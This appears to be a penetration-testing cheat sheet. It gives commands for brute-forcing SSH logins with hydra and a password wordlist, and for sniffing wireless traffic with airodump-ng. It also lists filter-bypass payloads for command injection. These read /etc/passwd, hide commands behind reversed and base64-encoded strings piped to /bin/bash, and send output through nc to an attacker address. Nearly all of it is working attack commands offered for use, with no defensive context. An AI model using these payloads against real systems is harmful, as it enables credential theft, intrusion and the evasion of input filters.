 ### Bruteforcing SSH using hydra

```shell
hydra server_ip_addr ssh -L /usr/share/ncrack/minimal.usr -P /usr/share/seclists/Password/rockyou-10.txt -f -V
```

### Airodump - Get chaninel specific traffic - filter by enc type

```shell
airodump-ng --channel 1 wlan0 / airodump-ng --channel 1 --encrypt WPA1 wlan0
```

### Airodump - Sniff all bands and channels

```shell
airodump-ng --band abg wlan0
```

### Airodump - filter by channel / essid

```shell
airodump-ng --channel 1,2,3,4 / --essid AP_NAME
```

### Get Original AP / MITM detection (part) by BSSID + ESSID filter

```shell
airodump-ng --band abg wlan0 / --essid AP_NAME / --bssid MAC_ADDRESS_OF_ORIGINAL_DEVICE
```

### Command Injection filter bypass - reflected

1. Using command seperate: ```; pwd```
2. Using command append: ```&& cat /etc/passwd```
3. Using pipe: ```| cat /etc/passwd```
4. Using quoted command - add quotes for any character in word (EX:```cat/et"c"/p"a"ssw"d"```)
5. Using wildcards - replace any word with "```*```" & "```?```" (EX:```cat /etc/pa*wd``` or ```cat /etc/p?sswd```)
6. Using null vars - add ``` `` ``` in between words (EX:```cat /e``tc/p``asswd```)
7. Multi bypass - (EX:``` |cat /"e"t``c/p?sswd ```)
8. Lethal injection 1 - reversed + multi filters (EX:```echo "dws?ap/c``t"e"/ tac" | rev | /bin/bash```)
9. Lethal injection 2 - reversed + endeded + multi filters (EX:```echo "ZHdzP2FwL2NgYHQiZSIvIHRhYw==" | base64 -d | rev | /bin/bash```)

Fuzzing for bypass: https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/command-injection.md

```"dws?ap/c``t"e"/ tac" | rev```

### Command Injection filter bypass - blind

1. Test reflection

On victim asset:

```shell
127.0.0.1 | nc ip_addr_attacker port_number
```
